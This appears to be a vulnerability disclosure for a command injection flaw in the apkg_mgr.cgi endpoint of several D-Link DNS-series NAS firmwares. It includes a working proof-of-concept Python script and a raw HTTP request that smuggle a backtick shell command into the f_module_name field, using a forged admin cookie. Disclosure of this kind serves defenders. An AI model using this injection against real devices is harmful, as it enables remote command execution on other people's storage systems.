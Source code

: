 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L all firmware version has a command injection vulnerability in module_enable_disable function of the file /cgi-bin/apkg_mgr.cgi.  The variable `f_module_name`is passed from a POST request and is assigned to `v4` via the `snprintf` function at line 49 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723735144192-6a7cf4e6-bdb3-4129-bf32-43c50ce8b26a.png#averageHue=%23fefefb&clientId=u17b96338-1736-4&from=paste&height=109&id=u176b3f7c&originHeight=138&originWidth=744&originalType=binary&ratio=1&rotation=0&showTitle=false&size=21408&status=done&style=none&taskId=u66f03b50-b689-4025-ace4-7908ed45846&title=&width=589)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723735136333-77c46c75-f7c0-46e0-b084-dd700618c47f.png#averageHue=%23f8f8f8&clientId=u17b96338-1736-4&from=paste&height=120&id=ubb430aea&originHeight=120&originWidth=1175&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20786&status=done&style=none&taskId=ua89d8343-900e-46f4-a3aa-1a7846f6d80&title=&width=1175)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/apkg_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=module_enable_disable&f_module_name=`touch%09/tmp/126`&f_enable=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/apkg_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=module_enable_disable&f_module_name=`touch%09/tmp/126`&f_enable=1
```

